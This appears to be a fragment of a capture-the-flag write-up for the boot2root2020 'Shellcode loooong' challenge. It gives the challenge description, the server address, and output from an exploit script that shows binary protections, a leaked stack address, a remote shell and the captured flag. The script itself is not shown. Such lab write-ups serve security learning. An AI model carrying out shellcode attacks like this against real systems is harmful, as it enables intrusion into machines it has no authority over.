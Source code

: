  Shellcode loooong
495

I dont like long long shellcodes keep them short and crispy

nc 35.238.225.156 1008

Author: TheBadGuy


```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/shellcode_loooong/short'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 35.238.225.156 on port 1008: Done
[*] buff: 0x7ffff75ce360
[*] Switching to interactive mode
$ cat flag
b00t2root{sH0rT3r_shellZ_c0d3}
```
